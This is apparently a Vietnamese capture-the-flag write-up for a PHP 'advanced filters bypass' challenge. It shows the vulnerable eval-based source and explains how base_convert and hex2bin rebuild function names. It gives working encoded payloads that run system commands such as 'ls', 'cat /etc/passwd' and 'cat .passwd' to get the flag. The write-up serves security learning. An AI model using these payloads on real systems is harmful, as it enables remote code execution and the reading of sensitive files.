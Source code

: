 # PHP-Eval-Advanced filter bypass

- [PHP-Eval-Advanced filter bypass](#php-eval-advanced-filter-bypass)
  - [Source code](#source-code)
  - [Phân tích](#phân-tích)
  - [Payload](#payload)

## Source code 

```php
<?php

error_reporting(0);

function safe_eval($calculus)
{
  preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);
  $words = $words[0];

  $accepted_words = ['base_convert', 'pi'];
  $alphabet = str_split('_abcdefghijklmnopqrstuvwxyz0123456789.+-*/%()[],');

  var_dump($calculus);

  $safe = true;
  for ($i = 0; $i < count($words); $i++) {
    if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) {
      $safe = false;
    }
  }

  for ($i = 0; $i < strlen($calculus); $i++) {
    if (array_search($calculus[$i], $alphabet) === false) {
      $safe = false;
    }
  }

  if (strlen($calculus) > 256)
    return "Expression too long.";
  $ans = '';
  if (($safe) === false)
    $ans = "This calculus is not safe.";
  else
    eval ('$ans=' . $calculus . ";");
  return $ans;
}
?>

<!DOCTYPE html>
<html lang="fr">

<head>
  <meta charset="UTF-8">
  <link type="text/css" rel="stylesheet" href="./style.css">
  <title>PHP - Advanced filters bypass</title>
</head>

<body>
  <div class="content">
    <h2>PHP - Advanced filters bypass</h2>
    <br>
    <p>You can access the <a href="./?source">source code</a>.</p>
    <form class="" action="index.php" method="post">
      <table style="width:100%">
        <tr>
          <td><input class="forminput" type="text" name="calculus" value="1+1" size=50></td>
        </tr>
        <tr>
          <td><button class="formsubmitbutton" type="submit">Give me the result !</button></td>
        </tr>
        <?php if (isset($_POST['calculus'])): ?>
          <tr>
            <td><br /></td>
          </tr>
          <tr>
            <td class="result">
              <code style="width:100%;white-space: pre-wrap;"><?= @safe_eval($_POST['calculus']) ?></code>
            </td>
          </tr>
        <?php endif ?>
      </table>
    </form>
  </div>
</body>

</html>
```

## Phân tích

- Hàm `safe_eval()` được dùng để filter dữ liệu và dùng hàm `eval` để thực thi `$calculus` được truyền vào. 
- Trong hàm `safe_eval()` sử dụng `preg_match_all` để tách các chữ cái và kí tự `_`, kiểm tra kí độ dài của chuỗi nhập vào.
- Phân tích sâu hơn: 
  - Hàm `preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);` dùng để lấy dữ liệu từ chuỗi `$calculus`, tách các kí tự `a-z,_` và sau đó lưu vào mảng $words.
  - Đoạn code preg_match_all: 
    ```php
    <?php
    preg_match_all("/([a-z_]+)/", strtolower('abcdefghijk'), $words);
    print_r($words);
    echo "\n";
    $words = $words[0];
    ?>
    ```

    ```text
    Output:
    Array
      (
        [0] => Array
          (
            [0] => abcdefghijk
          )

        [1] => Array
          (
            [0] => abcdefghijk
          )
      )
    ```
  - Biến `$words` là mảng 2 chiều, được tạo ra từ hàm `preg_match_all()`, sau đó gán `$words = $words[0]`.
  ```php
  for ($i = 0; $i < count($words); $i++) 
  {
    if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) 
    {
      $safe = false;
    }
  }
  ```
  - Đây là đoạn code kiểm tra xem chuỗi nhập vào có phải hợp lí không. Chuỗi hợp lệ được lưu trong mảng `$accepted_words`. Nó sẽ kiểm tra từng chuỗi trong mảng `$words`, sau đó kiểm tra xem nó có phải là chuỗi hợp lệ không.
  ```php
  for ($i = 0; $i < strlen($calculus); $i++) {
    if (array_search($calculus[$i], $alphabet) === false) 
    {
      $safe = false;
    }
  }
  ```
  - Đoạn code này sẽ kiểm tra xem trong chuỗi nhập vào có các kí tự trong mảng `$alphabet`, nếu không trùng sẽ trả về false
  ```php
  if (strlen($calculus) > 256)
    return "Expression too long.";
  $ans = '';
  if (($safe) === false)
    $ans = "This calculus is not safe.";
  else
    eval ('$ans=' . $calculus . ";");
  return $ans;
  ```
  - Đoạn code này sẽ dùng để kiểm tra các điều kiện và thực thi chuỗi người dùng nhập vào.

  ```php
  var_dump($calculus);
  ```
  - Ham này sẽ dùng để in ra thông tin về mảng, chuỗi của $calculus
  - Hàm base_convert(): 
  - Hàm `base_convert(1751504350, 10, 36)` sẽ chuyển đổi một số từ hệ cơ số 10 sang hệ cơ số 36, với kết quả bao gồm cả các chữ cái và chữ số trong hệ cơ số 36. Kết quả của phép chuyển đổi này chính là chuỗi đại diện của số đó trong hệ cơ số 36.
  - Để tái tạo hàm system từ hệ cơ số 36 về hệ cơ số 10, chúng ta sử dụng:
    `base_convert("system", 36, 10)`
  - Tương tự, command `ls` cũng được tạo như sau: `base_convert(784,10,36)`
  - Kết hợp 2 hàm => `system(ls) = base_convert(1751504350,10,36)(base_convert(784,10,36))`
  - Tại sao lại có `)` ở cuối ? PHP cho rằng kết quả của base_convert(1751504350,10,36) là một tên hàm. Sau đó, nó tìm cách gọi tên hàm này (ở đây là "system") với tham số từ base_convert(784,10,36). PHP sẽ hiểu rằng đang gọi hàm `system`
  - Nhưng hiện tại mới chỉ thực thi được command khong có space và 1 số kí tự khác.
  => sau khi tìm hiểu thì trong php có 2 hàm `hex2bin` cũng như `bin2hex` để chuyển các dữ liệu từ bin sang hex cũng như hex sang bin.
  - Theo tìm hiểu thì trong hầu hết các trường hợp, kích thước tối đa của 1 số nguyên trong PHP là 2^32 bit => cần giới hạn đầu vào của base_convert thành các chuỗi biểu diễn các số có độ dài tối đa là 4 byte. Nếu cần có thể chia chuỗi đó thành nhiều phần khác nhau và nối chúng bằng dấu `.` => có thể thực hiện bất kì lệnh linux nào = cách chia nó thành các thành phần có độ dài 4 byte trở xuống. Chúng ta sẽ chuyển đổi các chuỗi thành chuỗi hex, chuyển đổi chuỗi hex này thành số nguyên bằng base_convert(HEX_CHUNK,10,36) và sau đố cuối cùng nối chúng bên trong 1 lệnh gọi được tạo bằng hex2bin và đặt bên trong 1 lệnh gọi đến system và nó sẽ được thực thi.  

## Payload 

- Payload sẽ giống thế này: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(chunk1,10,36).base_convert(chunk2,10,36).base_convert(chunk3,10,36)...))`
- Tạo payload với hàm `cat /etc/passwd`: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(189751590363,10,36).base_convert(189803607951,10,36).base_convert(428637964,10,36)))` => `system(hex2bin('636174202f6574632f706173737764'))` => `system(cat /etc/passwd)`

![alt text](image.png)

- Và đây là kết quả sau khi payload chuỗi kia vào đoạn code
- chúng ta sẽ payload tạo payload system('ls') để xem bên trong nó có gì: `base_convert(1751504350,10,36)(base_convert(784,10,36))`

![alt text](image-1.png)

=> có file `ch70.s` có thể thực thi. `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(187349691536,10,36).base_convert(149148,10,36).base_convert(111711,10,36)))`

- Không thể thực thi. Đoán rằng có thể flag nằm trong file ẩn .passwd => tạo payload `cat .passwd`: `base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(86,10,36).base_convert(423544719,10,36).base_convert(428637964,10,36)))` => có được flag 
![alt text](image-2.png)